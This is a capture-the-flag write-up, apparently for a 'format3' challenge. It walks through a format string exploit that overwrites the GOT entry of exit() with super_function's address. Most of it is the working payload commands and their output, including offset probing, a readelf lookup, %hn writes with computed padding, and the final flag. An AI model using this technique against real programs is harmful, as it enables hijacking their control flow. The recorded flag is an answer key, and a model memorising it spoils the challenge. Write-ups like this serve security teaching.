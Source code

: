 ### Even More Format Strings
This time, we have to overwrite the GOT entry of `exit()` with the address of `super_function()`.


We start by finding the offset of our input buffer:
```
$ python2 -c 'print "AAAA" + "%x."*10' | ./format3
Super Secure Format String Playground 13.37
Welcome!
super_function(): 0x80486cb
Enter an interesting message, please: You entered: AAAA1ff.f7f9e580.8048b5f.0.f7ff0c06.f7ffcfcc.41414141.252e7825.78252e78.2e78252e.
exit value: 0x08048546
```

Subtract 3 "%x", and we have our offset.
```
$ python2 -c 'print "AAAA" + "%x."*7' | ./format3
Super Secure Format String Playground 13.37
Welcome!
super_function(): 0x80486cb
Enter an interesting message, please: You entered: AAAA1ff.f7f9e580.8048b5f.0.f7ff0c06.f7ffcfcc.41414141.
exit value: 0x08048546
```

Change `AAAA` to the address of `exit` and prepare to write to this address.
```
$ readelf --relocs format3 | grep exit
08049120  00000907 R_386_JUMP_SLOT   00000000   exit@GLIBC_2.0
$ python2 -c 'print "\x20\x91\x04\x08" + "%x"*5 + "%08x" + "%hn"' | ./format3
Super Secure Format String Playground 13.37
Welcome!
super_function(): 0x80486cb
Enter an interesting message, please: You entered:  �1fff7f9e5808048b5f0f7ff0c06f7ffcfcc
exit value: 0x08040027
[1]    11940 done                              python2 -c 'print "\x20\x91\x04\x08" + "%x"*5 + "%08x" + "%hn"' | 
       11941 segmentation fault (core dumped)  ./format3
```

Great! We have overwritten the two lower bytes of the address with `0x27`. `super_function()` is at `0x80486cb`, so we have to change `0x27` to `0x86cb`. We don't have to overwrite the upper bytes as they are the same.

```
>>> 0x86cb - 0x27 + 8
34476
```

`wanted - current + 8`. `+ 8` because we're using `%08x` at the time.


```
$ python2 -c 'print "\x20\x91\x04\x08" + "%x"*5 + "%34476x" + "%hn"' | ./format3
[lots of crap]
exit value: 0x080486cb
Congrats!
The token is: TG16{hardc0re_overwriting_stuff}
```

